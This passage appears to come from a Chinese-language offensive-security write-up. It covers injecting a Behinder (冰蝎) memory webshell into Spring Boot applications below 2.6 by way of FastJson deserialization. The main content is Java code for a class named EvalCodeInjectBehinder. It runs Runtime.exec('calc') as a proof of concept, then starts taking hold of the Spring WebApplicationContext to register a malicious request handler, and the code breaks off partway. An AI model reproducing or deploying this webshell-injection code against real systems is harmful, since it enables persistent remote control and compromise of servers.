 ```java
                e.printStackTrace();
            } catch (BadPaddingException e) {
                e.printStackTrace();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }

    }


}

```

## FastJson注入冰蝎代码(boot<2.6)

​	核心就是拿到request、response、session，从3.0开始，只需要把这三个封装到map中，传到冰蝎客户端就行了。

```java



import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Scanner;

/**
 * @author   Email:
 * @description:
 * @Version
 * @create 2023-10-28 13:37
 */
public class EvalCodeInjectBehinder extends java.lang.ClassLoader {


    public EvalCodeInjectBehinder() throws Exception{
        
        
        Runtime runtime = Runtime.getRuntime();
        Process pc = runtime.exec("calc");
        pc.waitFor();
        
        
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.
                currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
```